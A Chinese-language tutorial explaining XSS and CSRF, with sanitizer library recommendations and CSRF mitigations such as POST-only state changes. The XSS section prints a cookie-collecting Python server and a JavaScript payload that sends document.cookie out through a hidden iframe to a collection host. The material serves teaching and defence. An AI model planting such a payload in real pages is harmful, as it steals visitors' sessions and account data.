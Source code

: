 #  XSS 与 CSRF 两种跨站攻击

- XSS：跨站脚本（Cross-site scripting）

- CSRF：跨站请求伪造（Cross-site request forgery）

## XSS

>XSS 全称“跨站脚本”，是注入攻击的一种。其特点是不对服务器端造成任何伤害，而是通过一些正常的站内交互途径，  
例如发布评论，提交含有 JavaScript 的内容文本。  
这时服务器端如果没有过滤或转义掉这些脚本，作为内容发布到了页面上，其他用户访问这个页面的时候就会运行这些脚本。 

- 也可以是盗号或者其他未授权的操作——我们来模拟一下这个过程，先建立一个用来收集信息的服务器：
```
#!/usr/bin/env python
#-*- coding:utf-8 -*-

"""
跨站脚本注入的信息收集服务器
"""

import bottle

app = bottle.Bottle()
plugin = bottle.ext.sqlite.Plugin(dbfile='/var/db/myxss.sqlite')
app.install(plugin)

@app.route('/myxss/')
def show(cookies, db):
    SQL = 'INSERT INTO "myxss" ("cookies") VALUES (?)'
    try:
        db.execute(SQL, cookies)
    except:
        pass
    return ""

if __name__ == "__main__":
    app.run()
```
- 在某一个页面的评论中注入这段代码：

// 用 <script type="text/javascript"></script> 包起来放在评论中
```
(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = "http://192.168.123.123/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);
```
于是每个访问到含有该评论的页面的用户都会遇到麻烦——他们不知道背后正悄悄的发起了一个请求，是他们所看不到的。

而这个请求，会把包含了他们的帐号和其他隐私的信息发送到收集服务器上。

- 这里附上一些“白名单”消毒 HTML 标签和属性（Sanitize HTML）的开源解决方案
- Python: [lxml.html.clean](http://lxml.de/lxmlhtml.html#cleaning-up-html) / [bleach](https://github.com/jsocol/bleach)
- Ruby: [Sanitize](https://github.com/rgrove/sanitize/)
- JavaScript: [sanitize-html](https://github.com/punkave/sanitize-html)
- PHP: [htmlpurifier](http://htmlpurifier.org/)

## CSRF 冒充用户之手: CSRF 顾名思义，是伪造请求，冒充用户在站内的正常操作

>起初一直弄不清楚 CSRF 究竟和 XSS 有什么区别，后来才明白 CSRF 和 XSS 根本是两个不同维度上的分类。
XSS 是实现 CSRF 的诸多途径中的一条，但绝对不是唯一的一条。一般习惯上把通过 XSS 来实现的 CSRF 称为 XSRF。

CSRF 的全称是“跨站请求伪造”，而 XSS 的全称是“跨站脚本”

- 提高的一个门槛，就是改良站内 API 的设计。对于发布帖子这一类创建资源的操作，应该只接受 POST 请求，而 GET 请求应该只浏览而不改变服务器端资源。  
当然，最理想的做法是使用REST 风格 [2] 的 API 设计，GET、POST、PUT、DELETE 四种请求方法对应资源的读取、创建、修改、删除。  
现在的浏览器基本不支持在表单中使用 PUT 和 DELETE 请求方法，我们可以使用 ajax 提交请求（例如通过 jquery-form 插件，我最喜欢的做法），  
也可以使用隐藏域指定请求方法，然后用 POST 模拟 PUT 和 DELETE （Ruby on Rails 的做法）。  
这么一来，不同的资源操作区分的非常清楚，我们把问题域缩小到了非 GET 类型的请求上——攻击者已经不可能通过发布链接来伪造请求了，  
但他们仍可以发布表单，或者在其他站点上使用我们肉眼不可见的表单，在后台用 js 操作，伪造请求。  


## 参考资料
- https://blog.tonyseek.com/post/introduce-to-xss-and-csrf/
